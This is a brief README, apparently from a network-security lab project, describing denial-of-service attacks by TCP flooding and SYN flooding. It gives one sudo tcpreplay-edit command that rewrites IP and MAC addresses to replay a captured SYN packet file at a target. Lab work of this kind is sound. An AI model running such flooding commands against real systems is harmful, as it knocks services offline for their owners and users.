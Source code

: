 # Denial of Service (DoS)

We focus on two types of DoS attacks.

* TCP Flooding
* (Optional) SYN Flooding

## TCP Flooding

We simply use `flooding.py` to conduct our attack.

## SYN Flooding

```bash
$ sudo tcpreplay-edit --srcipmap=10.0.0.2:10.200.64.115 --destipmap=10.120.0.2:172.20.10.4 --enet-smac=88:66:5a:31:43:51 --enet-dmac=C0:2C:5C:2E:FE:6A --loop=1 en0 ./SYN.pcap
```

